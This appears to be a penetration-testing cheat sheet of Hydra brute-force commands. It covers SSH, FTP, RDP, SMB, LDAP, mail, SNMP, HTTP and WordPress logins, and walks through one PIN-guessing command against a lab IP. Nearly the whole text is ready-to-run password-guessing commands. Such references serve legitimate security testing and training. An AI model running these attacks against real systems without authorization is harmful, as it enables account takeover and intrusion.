 Command         Description  
`hydra -P password-file.txt -v $ip snmp`  Hydra brute force against SNMP  

`hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp`     Hydra FTP known user and rockyou password list  

`hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh`    Hydra SSH using list of users and passwords  

`hydra -v -V -u -L users.txt -p "" -t 1 -u $ip ssh`       Hydra SSH using a known password and a username list  

`hydra $ip -s 22 ssh -l -P big_wordlist.txt`      Hydra SSH Against Known username on port 22  

`hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V`        Hydra POP3 Brute Force  

`hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V`       Hydra SMTP Brute Force  

`hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin`       Hydra attack http get 401 login with a dictionary  

`hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip`         Hydra attack Windows Remote Desktop with rockyou  

`hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb`   Hydra brute force SMB user with rockyou:  

`hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`         Hydra brute force a Wordpress admin login  

`hydra -L usernames.txt -P passwords.txt $ip smb -V -f`   SMB Brute Forcing  

`hydra -L users.txt -P passwords.txt $ip ldap2 -V -f`     LDAP Brute Forcing  


---------------------------------------------------------------------------------  

`hydra -l '' -P 3digits.txt -f -v 10.10.50.172 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000`  

The command above will try one password after another in the 3digits.txt file. It specifies the following:  
    -l '' indicates that the login name is blank as the security lock only requires a password
    -P 3digits.txt specifies the password file to use
    -f stops Hydra after finding a working password
    -v provides verbose output and is helpful for catching errors
    10.10.50.172 is the IP address of the target
    http-post-form specifies the HTTP method to use
    "/login.php:pin=^PASS^:Access denied" has three parts separated by :
        /login.php is the page where the PIN code is submitted
        pin=^PASS^ will replace ^PASS^ with values from the password list
        Access denied indicates that invalid passwords will lead to a page that contains the text “Access denied”
    -s 8000 indicates the port number on the target

---------------------------------------------------------------------------------  

`hydra -l username -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-head /`

SYNTAX :
#http-get  
`hydra -l username -P <wordlist> -f <ip> http-get /`

#http-head  
`hydra -l username -P <wordlist> -f <ip> http-head /`

http-head:  

This specifies the protocol and method to be used. http-head tells Hydra to use the HTTP HEAD method for the attack. The HEAD method is similar to GET, but it only retrieves the headers, not the full content. This can be useful for checking authentication without downloading large amounts of data.
